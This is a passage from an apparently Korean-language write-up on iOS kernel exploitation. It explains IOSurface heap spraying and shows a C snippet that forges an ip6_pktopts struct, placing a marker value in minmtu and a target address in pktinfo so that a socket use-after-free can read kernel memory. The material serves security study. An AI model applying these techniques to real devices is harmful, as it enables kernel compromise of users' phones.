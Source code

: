 ```c
}
```

## 2. OSUnserializeBinary 포맷을 활용한 IOSurface 풍수

방금 OOL Message 기반 Port Address Spraying을 수행했던것처럼
이번에는 IOSurface 기반 Heap Spraying 방법을 소개해보려고 한다.

이 방법을 통해 임의의 데이터를 커널의 지정된 위치에 스프레이시킬 수 있다.

IOSurface에 대해 간략히 설명하자면,

커널에서 프로세스 간에 그래픽 버퍼를 공유하는 데 사용되며 
커널 메모리 영역에 할당되는 객체이다.
대량의 그래픽 데이터를 효율적으로 커널과 공유해야 하는 그래픽 처리 작업에서 주로 사용된다.

따라서 커널 메모리 영역에 할당되는 객체이기 때문에
커널 힙 스프레이가 가능하다.

dangling 되는 `in6p_outputopts`  필드의 ip6_pktopts 구조체를 다시 한번 살펴보자.

```c
struct ip6_pktopts
{
  mbuf *ip6po_m;
  int ip6po_hlim;
  **in6_pktinfo *ip6po_pktinfo;  //우리가 읽고자 하는 주소로 사용**
  ip6po_nhinfo ip6po_nhinfo;
  ip6_hbh *ip6po_hbh;
  ip6_dest *ip6po_dest1;
  ip6po_rhinfo ip6po_rhinfo;
  ip6_dest *ip6po_dest2;
  int ip6po_tclass;
  **int ip6po_minmtu;       // 플래그 비트로 사용**
  int ip6po_prefer_tempaddr;
  int ip6po_flags;
};

```

원리는 먼저 `in6p_outputopts` 구조체를 위조하여, 
**dangling ptr가 사용됐는지 확인하기 위해 `minmtu` 멤버를 플래그 비트로 사용**한 뒤, 
추가로 **구조체 포인터인 `in6_pktinfo`에 우리가 읽고자 하는 주소를 넣는** 아이디어이다.

아래는 아이디어에 대한 코드이다.

```c
// create a fake struct with our dangling port address as its pktinfo
    struct ip6_pktopts *fake_opts = calloc(1, sizeof(struct ip6_pktopts));
    fake_opts->ip6po_minmtu = 0x41424344; // give a number we can recognize
    *(uint32_t*)((uint64_t)fake_opts + 164) = 0x41424344; // on iOS 10, offset is different
    fake_opts->ip6po_pktinfo = (struct in6_pktinfo*)addr;
```

그런 다음, Socket UAF를 이용해 대량 해제된 `in6p_outputopts` 영역을 만들고, 
앞서 위조한 데이터를 Socket UAF 영역에 스프레이시킨다.
